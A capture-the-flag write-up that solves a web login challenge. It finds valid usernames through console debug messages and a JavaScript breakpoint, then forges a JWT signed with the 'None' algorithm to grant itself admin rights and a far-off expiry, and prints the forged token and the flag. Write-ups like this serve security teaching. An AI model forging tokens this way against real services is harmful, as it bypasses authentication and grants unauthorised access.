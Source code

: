 # Checking the site

There are ghosts and witches flying around on a login page.

![](screenshots/1.png)

# Console

Opening the console in the browser reveals some debug messages.

```
[DEBUG] Backend URL: http://10.10.2.10:1337
[NOTE] The witches sometimes like to glitch. Let's be honest, they just like to party hard. BWAHAHAHA
```

# Debug

Looking for more of these debug logs in the JS files, there is one more:

```
[DEBUG] username seems valid
```

Inserting a breakpoint and updating the username input field stops on it.

![](screenshots/2.png)

The value `r` has a bunch of values. The JS is checking if the value in the input is in this array. These are the valid usernames.

# Login

We can log in with these users. The chosen is the `witch`.

![](screenshots/3.png)

This is calling the `/login` endpoint on the backend.

![](screenshots/4.png)

It has a JWT token.

```json
{
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpdGNoIiwiaXNBZG0iOjAsImV4cCI6MTcwMDIzNTAzMX0.RwLppWYz6yObN4UTTQUuylVmDWQTIYZ5WRa1R8lXvxU", 
    "exp": 1700235031
}
```

# JWT token

Decoding the token can be done manually decoding the base64 or with [jwt.io](https://jwt.io/).

Header:

```
{"alg":"HS256","typ":"JWT"}
```

Payload:
```
{"username":"witch","isAdm":0,"exp":1700235031}
```

![](screenshots/5.png)

# None algorithm

For some reason, JWT tokens can be signed with the None algorithm, and insecure applications do accept them. Let's also edit the payload and flip `isAdm` and make it never expire.

The `=` padding has to be ommited for JWT tokens.

Header:

```
{"alg":"None","typ":"JWT"}
```

Payload:

```
{"username":"witch","isAdm":1,"exp":9999999999}
```

Response:

```json
{
    "token": "eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6IndpdGNoIiwiaXNBZG0iOjEsImV4cCI6OTk5OTk5OTk5OX0.", 
    "exp":9999999999
}
```

This logs us in with admin.

![](screenshots/6.png)

# Flag
cq23{g0tta_c4tch_th3m_4ll_6d8441095772cfcf12a846450d}